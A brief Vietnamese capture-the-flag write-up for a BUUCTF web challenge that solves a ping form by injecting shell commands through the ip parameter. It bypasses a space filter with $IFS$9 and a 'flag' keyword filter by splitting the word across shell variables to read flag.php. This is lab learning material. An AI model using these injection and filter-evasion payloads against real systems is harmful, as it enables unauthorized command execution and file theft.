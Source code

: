 Ta có form challenge như sau

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/855cf10a-1993-4e98-924e-8e2505a26238)

Ta thấy bài có ghi `/?ip=`, nên mình sẽ thử chèn url như sau `/?ip=127.0.0.1;ls`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/0ecc1050-f686-4d99-8d67-179b8e7c01f6)

Vậy là ta có thể nhận ra bài này là command execution.Thử vào file `index.php` trước.

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/28ffe77c-ed7c-4fa0-a7e0-da401c80218d)

Dã bị filter dấu cách nên mình sử dụng `$IFS$9` thay thế

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/c15f2426-b5b3-400f-ab5b-978ecaccfdcf)

Ta thấy các ký tự `&, /, ?, *, <, x{00}-, \x{1f}, ', ", \, (), [], {}, "xxxfxxxlxxxaxxxgxxx", "", "bash",flag`

Mình có đọc các wu khác thì hướng dẫn theo gán các biến và đảo lộn. Ta có payload như sau `/?p=127.0.0.1;a=ag;b=fl;cat$IFS$9$b$a.php`

Lụm key

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/1cbd893c-aa9a-46e3-862e-f384b6d61001)




